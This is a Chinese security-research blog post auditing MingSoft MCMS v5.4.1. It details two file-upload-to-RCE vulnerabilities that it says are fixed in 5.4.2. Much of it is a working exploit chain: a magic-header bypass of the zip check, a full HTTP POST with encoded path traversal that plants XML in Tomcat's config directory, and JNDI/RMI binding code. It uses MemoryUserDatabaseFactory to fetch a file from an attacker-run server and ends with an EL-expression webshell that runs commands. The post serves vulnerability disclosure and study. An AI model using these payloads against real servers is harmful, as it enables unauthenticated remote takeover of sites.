# 代码审计 - MCMS v5.4.1 0day挖掘-先知社区

> **来源**: https://xz.aliyun.com/news/16067  
> **文章ID**: 16067

---

## 一、前言

`MingSoft MCMS` 是中国铭飞 (MingSoft) 公司的一个完整开源的 `J2ee` 系统，可以到 Github 下载到源码，官网 [铭软・铭飞官网・低代码开发平台・免费开源Java Cms](https://mingsoft.net/)

笔者针对 `MCMS v5.4.1` 进行代码审计，发现存在一个后台 `uploadTemplate` 绕过限制上传 jsp 实现 rce，以及一个前台文件上传 rce，本文将对完整的漏洞挖掘与利用思路进行讲解

MCMS 的最新版本已更新到 `5.4.2`，且已对上述漏洞进行了修复

## 二、免责声明

该文章仅供学习用途使用，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关

## 三、环境搭建

版本：MCMS v5.4.1，[Release 5.4.1 · ming-soft/MCMS · GitHub](https://github.com/ming-soft/MCMS/releases/tag/5.4.1)

打包成 war，使用 tomcat 搭建



## 四、后台文件上传 CVE-2024-42990

> 该 CVE 编号已被分配，但详细信息尚未公开

在后台找到文件上传的地方



抓包，找到对应的路由 `/ms-mcms/ms/file/uploadTemplate.do`

上传一个 zip，里面包含着 jsp，会发现他提示



说明他有一个地方在检查我们上传的文件，所以要找到这个地方，查看对应的代码逻辑

最后找到是在 `FileVerifyAop.class`

```
@Around("uploadPointCut()")
    public Object uploadAop(ProceedingJoinPoint joinPoint) throws Throwable {
        UploadConfigBean bean = (UploadConfigBean)super.getType(joinPoint, UploadConfigBean.class);
        String uploadFileName = FileNameUtil.cleanInvalid(bean.getFile().getOriginalFilename());
        if (StringUtils.isBlank(uploadFileName)) {
            return ResultData.build().error("文件名不能为空!");
        } else {
            InputStream inputStream = bean.getFile().getInputStream();
            String mimeType = BasicUtil.getMimeType(inputStream, uploadFileName);
            if ("zip".equalsIgnoreCase(mimeType)) {
                try {
                    this.checkZip(bean.getFile(), false);
                } catch (Exception var7) {
                    return ResultData.build().error(var7.getMessage());
                }
            }

            return joinPoint.proceed();
        }
    }

```

打下断点跟踪一下，判断后缀是 zip 之后会进入 `checkZip` 函数，跟进去看一下



可以看到他是先解压出来，然后检测每个文件的后缀，如果后缀等于 jsp，就返回 jsp 不可以上传

所以我们需要绕过这个 checkzip。可以看到他进入 check 是需要他得到的后缀为 zip。我们跟进去看看他是如何 `getMimeType` 的



可以发现他返回 `fileType` 之前还获取了 `contentType`，并重新对 `fileType` 进行了赋值，这是否意味着我们可以从这里进行控制返回的 `fileType`？

我们跟进 `parse` 函数



可以发现 type 从这里赋值了，我们进入 `detect` 函数



type 在这里赋值了，继续跟进 `detect` 函数。这里是一个循环，要进入第二次循环的 `detect`



```
public MediaType detect(InputStream input, Metadata metadata) throws IOException {
        List<MimeType> possibleTypes = null;
        if (input != null) {
            input.mark(this.getMinLength());

            try {
                byte[] prefix = this.readMagicHeader(input);
                possibleTypes = this.getMimeType(prefix);
            } finally {
                input.reset();
            }
        }

        String resourceName = metadata.get("resourceName");
        String name;
        if (resourceName != null) {
            name = null;
            boolean isHttp = false;

            try {
                URI uri = new URI(resourceName);
                String scheme = uri.getScheme();
                isHttp = scheme != null && scheme.startsWith("http");
                String path = uri.getPath();
                if (path != null) {
                    int slash = path.lastIndexOf(47);
                    if (slash + 1 < path.length()) {
                        name = path.substring(slash + 1);
                    }
                }
            } catch (URISyntaxException var16) {
                name = resourceName;
            }

            if (name != null) {
                MimeType hint = this.getMimeType(name);
                if (!isHttp || !hint.isInterpreted()) {
                    possibleTypes = this.applyHint(possibleTypes, hint);
                }
            }
        }

        name = metadata.get("Content-Type");
        if (name != null) {
            try {
                MimeType hint = this.forName(name);
                possibleTypes = this.applyHint(possibleTypes, hint);
            } catch (MimeTypeException var14) {
            }
        }

        return possibleTypes != null && !possibleTypes.isEmpty() ? ((MimeType)possibleTypes.get(0)).getType() : MediaType.OCTET_STREAM;
    }

```

这个函数最后返回的就是 `possibleTypes`，所以跟进这个 `getMimeType`



发现他是通过文件的二进制数据进行判定是什么 type，在 `eval` 函数中通过数据来判别类型，识别完结果是这个



这里就可以直接猜测，他识别的是文件头，即在上传的 zip 文件中，添加图片的文件头





可以看到结果发生了变化，回到起点看看





成功绕过了 `checkzip` 函数，然后尝试压缩一个 jsp 上传看看



发现还是报这个错误，但是和前面的报的不一样，前面是这样的



那就继续跟一下，发现是在 `ManageFileAction.class` 的 `uploadTemplate` 路由同样有判断



跟进到这个 `getType` 函数



发现好像同样是由二进制数据判定的，那就往 jsp 文件中加入图片头



然后上传压缩包



最后访问 jsp 即可



## 五、前台文件上传 CVE-2024-42991

该漏洞源于前端文件上传功能的不当处理，可能导致远程命令执行

### 方式一：上传 xml 修改 jsp 解析后缀

在 MCMS 的历史漏洞中，有一个前台文件上传。具体路由是 `/static/plugins/ueditor/1.4.3.3/jsp/editor.do`

经过开发者的修复，能上传的文件变得很有限，详见 `ueditor` 的 `config.json`

```
/* 上传文件配置 */
    "fileActionName": "uploadfile", /* controller里,执行上传视频的action名称 */
    "fileFieldName": "upfile", /* 提交的文件表单名称 */
    "filePathFormat": "/ueditor/jsp/upload/file/{yyyy}{mm}{dd}/{time}{rand:6}", /* 上传保存路径,可以自定义保存路径和文件名格式 */
    "fileUrlPrefix": "", /* 文件访问路径前缀 */
    "fileMaxSize": 51200000, /* 上传大小限制，单位B，默认50MB */
    "fileAllowFiles": [
        ".png", ".jpg", ".jpeg", ".gif", ".bmp",
        ".flv", ".swf", ".mkv", ".avi", ".rm", ".rmvb", ".mpeg", ".mpg",
        ".ogg", ".ogv", ".mov", ".wmv", ".mp4", ".webm", ".mp3", ".wav", ".mid",
        ".rar", ".zip", ".tar", ".gz", ".7z", ".bz2", ".cab", ".iso",
        ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".pdf", ".txt", ".md", ".xml"
    ], /* 上传文件格式显示 */

```

可以上传 xml 文件

如果环境是 Tomcat，就可以上传 `web.xml` 修改 Tomcat 解析 jsp 的后缀

```
<servlet-mapping>
        <servlet-name>jsp</servlet-name>
        <url-pattern>*.jsp</url-pattern>
        <url-pattern>*.jspx</url-pattern>
    </servlet-mapping>

```

添加一个 `.png` 什么的，然后就可以 rce 了

如果再深挖一下，不修改 `web.xml`，还有什么方法可以进行 rce 呢？

### 方式二：从 jndi 到 rce

#### 1. 实现 jndi

读过 lvyyevd 师傅的文章 [tomcat下的文件上传RCE姿势](http://www.lvyyevd.cn/archives/tomcat下的文件上传rce姿势) ，我们可以知道，能通过上传 xml 来实现 jndi



`hostConfigBase` 下的 xml 文件都会被 `digester` 解析一遍。也就是说我们可以把 xml 文件上传到 `hostConfigBase`。最后上传的目录为 `\conf\Catalina\localhost`

xml 格式

```
<?xml version='1.0' encoding='utf-8'?>
<Context>
    <Manager className="com.sun.rowset.JdbcRowSetImpl"
             dataSourceName="rmi://localhost:1099/remoteobj"
             autoCommit="true"></Manager>
</Context>

```

上传的 Post 请求，其中 url 解码完是 `{filePathFormat:'/{.}./{.}./{.}.//conf/Catalina/localhost/8'}`

```
POST /ms-mcms/static/plugins/ueditor/1.4.3.3/jsp/editor.do?jsonConfig=%7b%66%69%6c%65%50%61%74%68%46%6f%72%6d%61%74%3a%27%2f%7b%2e%7d%2e%2f%7b%2e%7d%2e%2f%7b%2e%7d%2e%2f%2f%63%6f%6e%66%2f%43%61%74%61%6c%69%6e%61%2f%6c%6f%63%61%6c%68%6f%73%74%2f%38%27%7d&action=uploadfile  HTTP/1.1
Host: 127.0.0.1:8079
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 431
Content-Type: multipart/form-data; boundary=------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
X_Requested_With: UTF-8

--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA
Content-Disposition: form-data; name="upload"; filename="1.xml"

<?xml version='1.0' encoding='utf-8'?>
<Context>
    <Manager className="com.sun.rowset.JdbcRowSetImpl"
             dataSourceName="rmi://localhost:1099/remoteobj"
             autoCommit="true"></Manager>
</Context>
--------------------------AuIwirENRLZwUJSzValDLkEbUhZbrxlJuvZrhFXA--

```

本地启一个 rmi 服务，为 jndi 做准备

rmiserver

```
public class RMIServe {
    public static void main(String[] args) throws RemoteException, AlreadyBoundException {
        Person person=new Person();
        Registry registry= LocateRegistry.createRegistry(1099);
        registry.bind("person",person);
    }
}

```

jndi 绑定对象

```
public static void main(String[] args) throws NamingException, RemoteException {
        InitialContext initialContext=new InitialContext();
        Reference reference = new Reference("Test","Test","http://localhost:7777/");
        initialContext.rebind("rmi://localhost:1099/IMperson",reference);
    }

```

本地 Test 对象，就随便拿了一个弹计算器的对象。

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class Test extends AbstractTranslet {
    public Test() {
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException var1) {
            throw new RuntimeException(var1);
        }
    }
}

```

在 class 对象中启一个 python 的 http 服务

上传文件，查看是否有 http 访问，发现并没有



查看发现，是 jdk 版本太高的原因导致



那就顺带做一个绕过

#### 2. 实现 rce

jdk 版本高用的是 `beanfactory`，第一个想到的是 Tomcat 自带的依赖 `org.apache.naming.factory.BeanFactory` 中的 Reference 的 `forceString` 属性，再配合 `ELProcessor` 就能完成 rce。但当笔者实际实施的时候，发现还是不能成功，经过调试，发现笔者当前的 tomcat 版本好像移除了 `forceString` 属性，查看具体的代码。



那还有什么其他的方法吗？浅蓝师傅总结了很多其他的 jndi 注入方法，翻一翻，发现 xxe 到 rce 的一个方法

其中的 `org.apache.catalina.users.MemoryUserDatabaseFactory` 会根据 `pathname` 去发起本地或者远程文件访问，并使用 `commons-digester` 解析返回的 XML 内容，所以这里可以 XXE

具体原理可以查看浅蓝师傅写的文章 [探索高版本 JDK 下 JNDI 漏洞的利用方法](https://tttang.com/archive/1405/#toc_webshell)，这里直接给出做法

首先要准备一个文件 `test.jsp`，文件内容如下

```
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <role rolename="&#x3c;%Runtime.getRuntime().exec(&#x22;calc&#x22;); %&#x3e;"/>
</tomcat-users>

```

然后 rmi 服务

```
public class RMIServe {
    public static void main(String[] args) throws RemoteException, AlreadyBoundException {
        Person person=new Person();
        Registry registry= LocateRegistry.createRegistry(1099);
        registry.bind("person",person);
    }
}

```

jndi 绑定对象

```
import org.apache.naming.ResourceRef;

import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.StringRefAddr;
import java.rmi.RemoteException;

public class mcms {
    public static void main(String[] args) throws NamingException, RemoteException {
        InitialContext initialContext=new InitialContext();
        ResourceRef ref = tomcatWriteFile();
        initialContext.rebind("rmi://localhost:1099/remoteobj",ref);
    }
    private static ResourceRef tomcatWriteFile() {
        ResourceRef ref = new ResourceRef("org.apache.catalina.UserDatabase", null, "", "",
                true, "org.apache.catalina.users.MemoryUserDatabaseFactory", null);
        ref.add(new StringRefAddr("pathname", "http://127.0.0.1:8888/../../webapps/ROOT/test.jsp"));
        ref.add(new StringRefAddr("readonly", "false"));
        return ref;
    }
}

```

找一个地方，创建 webapps 和 ROOT 目录，里面放上面的 `test.jsp`



在 webapps 上级目录也就是上图的 mcms 目录下启动一个 http 服务，8888 端口。启动 rmi 服务，运行绑定对象

上传 xml 文件。同样是上面的 Post，不出意外会得到



test.jsp 就写进到 ROOT 目录了，查看 test.jsp



发现好像编码了，调试 tomcat 代码，发现 tomcat 版本高了，会对 xml 进行编码



最后，将 test.jsp 的执行换成了 el 表达式

```
<?xml version='1.0' encoding='utf-8'?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
  <role rolename="${pageContext.request.getClass().forName(param.n).getMethod(param.m).invoke(null).exec(param.code)}"/>
</tomcat-users>

```

重新执行上述流程

得到新的 jsp



加入参数 `n=java.lang.Runtime&m=getRuntime&code=calc`，成功 rce


